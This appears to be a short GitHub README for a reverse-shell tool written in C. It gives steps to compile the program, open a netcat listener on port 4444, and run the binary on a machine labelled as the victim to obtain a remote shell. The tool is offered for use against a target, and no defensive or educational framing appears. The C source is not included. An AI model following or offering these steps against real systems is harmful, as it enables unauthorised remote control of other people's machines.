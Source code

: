 # Netcat-ReverseShell-In-C-Programming
how to use:
#compile the script first
root@kali:~ gcc Nc-ReverseShell.c -o outputname

now open terminal and write this command:

root@kali:~ nc -lnp 4444 //your listen port you pested in your script

root@victim:~ ./outputname //your compiled script 

now u get a shell successfully:)
